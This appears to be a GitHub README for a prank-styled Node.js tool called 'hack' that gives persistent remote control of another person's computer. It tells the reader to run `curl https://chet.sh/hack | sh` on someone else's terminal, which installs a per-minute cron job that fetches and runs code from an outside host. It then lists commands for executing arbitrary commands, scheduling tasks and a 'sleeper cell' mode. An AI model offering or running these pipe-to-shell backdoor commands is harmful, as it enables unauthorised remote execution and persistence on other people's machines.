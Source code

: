 # Hack

Start hacking someone by running this command from their Terminal: `curl https://chet.sh/hack | sh`. That sets up a cron job every minute which pings `curl https://chet.sh/live | sh`.

Now go to your commandline and we can start having some fun.

```
hack live exec "say hello world"
hack live interval 1y # sleeper cell
hack live cron "20 16 * * * * -- say 'its foe 20, ye better be toke-in'"
hack live reset
hack live forget
hack live rename jon
hack jon ...
```

# FYI

http://www.nncron.ru/help/EN/working/cron-format.htm

* * * * *
| | | | |
| | | | |
| | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)
| | | +------ Month of the Year (range: 1-12)
| | +-------- Day of the Month  (range: 1-31)
| +---------- Hour              (range: 0-23)
+------------ Minute            (range: 0-59)

# PS

How to make a Node.js CLI app: http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm

# PPS

Bought the domain name `chet.sh` here: https://www.nic.sh/

# To Do

- demo
- better readme
- better help
- better command validation
- configure with custom domain name

# Getting Started

```sh
git clone ...
cd hack
npm install
npm link
```